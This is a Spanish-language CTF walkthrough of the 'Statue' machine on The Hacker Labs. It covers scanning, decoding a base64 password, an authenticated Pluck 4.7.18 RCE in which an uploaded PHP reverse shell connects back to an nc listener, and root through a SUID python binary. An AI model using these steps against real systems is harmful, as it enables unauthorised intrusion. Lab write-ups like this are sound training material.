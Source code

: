 # Statue - The Hacker Labs (Fácil)

Statue es una máquina Linux de la plataforma The Hacker Labs, de dificultad fácil.

- [Reconocimiento](#reconocimiento)
- [Enumeración](#enumeracion)
- [Explotación](#explotacion)
- [Post-Explotación](#post-explotacion)
- [Elevación de privilegios](#elevacion-de-privilegios)

## Reconocimiento

Lo primero que hice fue un escaner dentro del rango de IPs de mi interfaz de red para descubrir cual es la IP de la máquina. Después del escaner veo que la IP es la `10.0.2.12` y le hago ping para comprobar la conectividad, y viendo que la ttl es 64 me aseguro de que es una máquina Linux.

```
sudo arp-scan -I enp0s3 -l
ping 10.0.2.12
```

![host discovery](captura_2025-05-21_18-32-01.png)

Despúes hago un escaner de puertos con Nmap para ver que puertos hay abiertos.
Utilizo:
- **-p-** Para hacer el escaner a los 65535 puertos
- **-vvv** Para ir viendo en tiempo real el momento en el que descubre un puerto abierto
- **--open** Para solo buscar puertos abiertos
- **-sS** Para que en el protocolo tcp solo haga el SYN Connect sin esperar respuesta ACK, por lo que agiliza el escaner
- **-Pn** Para no hacer ping a la máquina ya que ya sabemos que hay conectividad.
- **-T5** Para aumentar la velocidad del escaner al máximo.
- **-n** Para desactivar la resolución DNS.

`sudo nmap -p- -vvv --open -sS -Pn -T5 -n 10.0.2.12 -oN open-ports`

Termina el escaner y vemos que solo están abiertos los puertos 22 y 80.

![puertos](captura_2025-05-21_18-33-20.png)

## Enumeración

Hacemos un escaner con Nmap Para analizar los sercicios que corren en los puertos 22 y 80.
Ultilizamos el argumento **-sVC** para que resuelva las versiones y lanze scripts comunes que analizen los servicios.

`nmap -p 22,80 -sVC -Pn -n 10.0.2.12 -oN scan`

Podemos ver que en el puerto 22 corre un OpenSSH 9.6p1 y el en puerto 80 un Apache httpd 2.4.58.

![servicios](captura_2025-05-21_18-34-22.png)

Si accedemos a la página podemos ver un directory listing vacío.

![página](captura_2025-05-21_18-38-53.png)

Siendo usuario root metemos el dominio `statue.thl` en `/etc/hosts`

```
sudo su
echo '10.10.11.12    statue.thl' >> /etc/hosts
```

Ahora si entramos con este dominio nos redirige a la página http://statue.thl/?file=rodgar

![statue.thl](captura_2025-05-21_18-44-52.png)

Viendo que la página tiene un parametro **file** que carga un archivo probé a cargar el `/etc/passwd` sin exito.

![intento de LFI](captura_2025-05-21_18-46-09.png)

Tambien podemos ver esta página de login por lo que de alguna forma necesitamos la contraseña.

![login](captura_2025-05-21_19-26-11.png)

Hice fuzzing con `ffuf` para ver que directorios y archivos hay en la página. Buscando archivos .txt, .md y .php

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e .php,.txt,.md -u http://statue.thl/FUZZ
```

Después del escaner se pueden ver varios archivos y directorios, pero el importante es el **`README.md`**.

![fuzzing](captura_2025-05-21_19-36-41.png)

Entrando en el `README.md` vemos un texto bastante grande, en base64.

![README.md](captura_2025-05-21_19-37-11.png)

Guardamos este texto en un archivo.

![](captura_2025-05-21_19-38-32.png)

Después de decodificarlo varias veces podemos ver que el texto era "**fideicomiso**" codificado muchas veces en base64.

```
cat encoded | base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d
```

![password](captura_2025-05-21_19-49-30.png)

Si lo pegamos como contraseña en el login conseguimos acceso.

![admin.php](captura_2025-05-21_19-50-46.png)

## Explotación

Despues de haber conseguido acceso necesitaba buscar vulnerabilidades. Ejecutando el comando `whatweb` podemos ver que la version del pluck es la 4.7.18.

![whatweb](captura_2025-05-21_18-47-57.png)

Buscando un poco, esta pagina de github encontré un script para explotar un RCE en un servicio pluck con esa misma versión

https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC

Viendo un poco el código, basicamente lo que hay que hacer es subir un archivo zip a http://statue.thl/admin.php?action=installmodule con un script en php para ganar una shell reversa.

En esta página de github me descargue el script de pentestmonkey/php-reverse-shell que es bastante efectivo:
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Dentro del script cambio la IP por mi IP y pongo el puerto 4444.

![rev-shell.php](captura_2025-05-21_20-07-48.png)

Guardo el Script en un ZIP.

`zip shell.zip php-reverse-shell.php`

Subí el ZIP a:
http://statue.thl/admin.php?action=installmodule

![installmodule](captura_2025-05-21_20-13-12.png)

Puse en escucha el puerto 4444 con netcat.

`nc -lvnp 4444`

En otra terminal llamé a al script con curl, aunque también se puede hacer en el navegador.

`curl 'http://statue.thl/data/modules/shell/php-reverse-shell.php'`

Y consigo acceso a la máquina.

![nc](captura_2025-05-21_20-16-44.png)

## Post-Explotación

Para estabilizar la shell ejecuté los siguientes comandos:

```
python -c 'import pty;pty.spawn("/bin/bash")'
Ctrl + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Podemos ver que soy el usuario `www-data` y que hay dos usuarios en la máquina, "charles" y "juan"

![](captura_2025-05-21_20-22-05.png)

Dentro de `/var/www` una carpeta `Charles-Wheatstone` la cual contiene un archivo `pass.txt`. El archivo contiene tanto una Pass encriptada y una Key codificada en base64.

![pass.txt](captura_2025-05-21_20-23-23.png)

Al decodificar varias veces la key vemos que inicialmente era "guardar".

```
echo 'Vm0xd1MyUXhVWGhYV0d4VFlUSm9WbGx0ZUV0V01XeHpXa2M1YWxadFVuaFZNVkpUVlVaYVZrNVlWbFpTYkVZelZUTmtkbEJSYnowSwo=' > key
cat key | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d
```

![key](captura_2025-05-21_20-25-16.png)

Viendo la Pass y la key no he sido capaz de determinar que tipo de encriptación era. 

![](captura_2025-05-21_20-33-32.png)

![john](captura_2025-05-21_20-33-39.png)

## Elevación de privilegios

Buscando otras alternativas de escalar privilegios he hecho una busqueda de archivos con permiso SUID y he encontrado que el binario `/usr/bin/python3.12` tien permisos SUID y ademas pertenece al usuario root. Por lo que si conseguimos una shell com python podriamos tener permisos root.

`find / -perm /4000 2>/dev/null`

![find](captura_2025-05-21_20-35-10.png)

Ejecutamos este comando para obtener una shell con python.

`/usr/bin/python3.12 -c 'import os; os.execl("/bin/bash", "bash", "-p")'`

Y vemos que ya somos root y podemos leer el `root.txt`.

![root.txt](captura_2025-05-21_20-37-04.png)

Tambien podemos leer el `user.txt` dentro de `/home/juan`.

![user.txt](captura_2025-05-21_20-38-35.png)
